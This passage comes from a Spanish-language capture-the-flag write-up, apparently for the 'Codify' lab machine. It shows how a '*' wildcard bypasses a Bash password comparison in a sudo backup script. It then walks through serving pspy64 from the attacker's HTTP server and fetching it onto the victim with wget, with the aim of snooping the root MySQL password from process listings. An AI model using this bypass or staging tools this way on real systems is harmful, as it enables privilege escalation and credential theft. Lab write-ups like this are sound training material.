 Sin embargo, esta validación puede ser vulnerable a un bypass cuando se utiliza el carácter `*` en la variable `DB_PASS`. En Bash, el `*` es un comodín que coincide con cualquier valor, lo que hace que la comparación del `if` siempre sea verdadera, independientemente del valor de la contraseña ingresada.

Por ejemplo, si un atacante inserta `*` en la variable `USER_PASS`, la condición `if` se evaluará como verdadera, permitiendo el bypass de la verificación.

**Posible Exposición de Contraseña a través de Procesos**

Tras realizar el bypass, un atacante podría intentar observar los procesos en ejecución para obtener las credenciales. Si el script está interactuando con la base de datos o realizando operaciones donde la contraseña esté presente en los parámetros o el entorno del proceso, es posible que la contraseña se pueda ver revisando los procesos del sistema como `Pspy`.

En este caso, intentamos realizar el `Bypass` descrito y verificamos que logramos ejecutar el script correctamente ingresando `*` como credenciales.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

En nuestro equipo loca, deberemos de compartir el binario de `pspy64`.

```bash
❯ ls -l pspy64
.rwxr-xr-x kali kali 3.0 MB Tue Jan 17 22:09:52 2023  pspy64

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el equipo víctima, nos descargaremos `pspy64`y le daremos los permisos correspondientes.

```bash
joshua@codify:~$ wget 10.10.16.7/pspy64
--2025-02-14 17:23:40--  http://10.10.16.7/pspy64
Connecting to 10.10.16.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                                    100%[==================================================================================================================================>]   2.96M  1.20MB/s    in 2.5s    

2025-02-14 17:23:42 (1.20 MB/s) - ‘pspy64’ saved [3104768/3104768]

joshua@codify:~$ chmod +x pspy64
```
